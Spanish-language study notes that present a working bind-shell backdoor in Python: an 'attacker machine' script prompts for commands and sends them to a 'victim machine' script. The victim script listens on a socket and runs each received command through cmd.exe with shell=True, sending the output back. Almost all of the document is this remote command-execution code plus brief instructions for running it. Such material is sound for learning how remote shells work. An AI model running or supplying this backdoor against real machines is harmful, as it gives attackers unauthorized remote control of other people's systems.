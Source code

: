Necesitaremos un script de la máquina atacante, donde se va a pedir al usuario que envíe un comando para que se envíe a la máquina víctima; y después al mismo tiempo recibiremos ese output procedente de la máquina víctima de vuelta a nuestra máquina atacante.
## CÓDIGO MÁQUINA ATACANTE
```python
import socket

# Definimos la dirección y puerto del servidor (Siempre de la máquina víctima)
server_address = ('192.168.0.13', 5000)

while True:
    # Creamos el socket cliente, ya que restablecemos la conexión a cada comando que se ejecute
    client_socket = socket.socket()
    client_socket.connect(server_address)

    # Solicitamos al usuario que introduzca un comando
    comando_enviar = input("Introduce el comando que quieras enviar a la máquina víctima (o 'exit' para salir): ")

    # Si el usuario introduce "exit", cerramos la conexión y salimos del bucle
    if comando_enviar == 'exit':
        client_socket.close()
        break

    # Enviamos el comando a la máquina víctima:
    client_socket.send(comando_enviar.encode())

    # Esperamos a recibir la respuesta de la víctima y lo guardamos en la variable respuesta.
    respuesta = client_socket.recv(4096)

    # Imprimimos la respuesta;
    print(respuesta.decode()) 

    # Cerramos el socket, que se volverá a abrir al inicio del bucle:
    client_socket.close()
```
## CÓDIGO MÁQUINA VÍCTIMA
Este es el código que se ejecutará en la máquina víctima:
```python
import socket
import subprocess

# Definimos la dirección y puerto (Siempre de la máquina víctima)
server_address = ('192.168.0.13', 5000)


while True:
    # Creamos el socket (la conexión)
    server_socket = socket.socket()
    server_socket.bind(server_address)
    server_socket.listen(1)
    # Esperamos a recibir una conexión
    client_socket, client_address = server_socket.accept()

    # Recibimos el comando de la máquina atacante
    comando = client_socket.recv(4096).decode()

    # Si el cliente envía "exit", cerramos la conexión y salimos del bucle
    if comando == 'exit':
        client_socket.close()
        break

    # Ejecutamos el comando y obtenemos su salida en la variable result
    result = subprocess.run(f"cmd.exe /c {comando}", shell=True, capture_output=True, text=True)
    salida = result.stdout

    # Enviamos la salida a la máquina atacante
    client_socket.send(salida.encode())

    # Cerramos la conexión con el cliente
    client_socket.close()

    # Cerramos el socket servidor
    server_socket.close()
```
 ---------------------------------------------
 Ahora el funcionamiento será el siguiente, donde primero ejecutaremos el código desde la máquina víctima para que permanezca en escucha a espera del comando enviado por la máquina atacante:
 ![[Mis apuntes/ANEXOS/Pasted image 20230308125116.png]]
 Y ahora si ejecutamos el código desde la máquina atacante, ya podremos insertar el comando que queramos y recibirlo de vuelta: ![[Mis apuntes/ANEXOS/Pasted image 20230308125219.png]]